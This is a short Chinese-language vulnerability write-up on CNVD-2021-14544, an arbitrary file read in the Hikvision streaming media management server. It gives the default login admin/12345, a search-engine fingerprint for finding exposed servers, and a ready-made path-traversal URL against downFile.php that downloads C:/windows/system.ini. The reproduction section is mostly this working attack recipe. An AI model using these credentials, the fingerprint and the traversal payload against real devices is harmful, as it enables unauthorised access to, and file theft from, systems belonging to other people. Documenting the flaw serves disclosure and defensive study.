

# Hikvision 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

```
Hikvision 流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登录页面如下， 默认账号密码为 `admin/12345`



访问如下URL下载`C:/windows/system.ini`文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

